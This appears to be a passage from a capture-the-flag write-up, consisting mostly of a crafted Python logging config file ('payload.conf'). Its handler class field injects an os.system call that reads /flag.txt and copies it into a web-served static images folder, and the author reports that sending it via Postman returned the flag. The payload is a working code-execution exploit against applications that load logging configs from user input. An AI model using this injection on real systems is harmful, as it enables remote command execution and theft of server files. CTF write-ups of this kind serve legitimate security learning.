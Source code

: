 ### Logger code `payload.conf`

```yaml
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/de5fb214024af96b9f49ace64886c5/payload_ca36a4c20fafe498f263')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

I fired up my postman to execute that and here comes the flag !
![Flag](./images/Flag.webp)
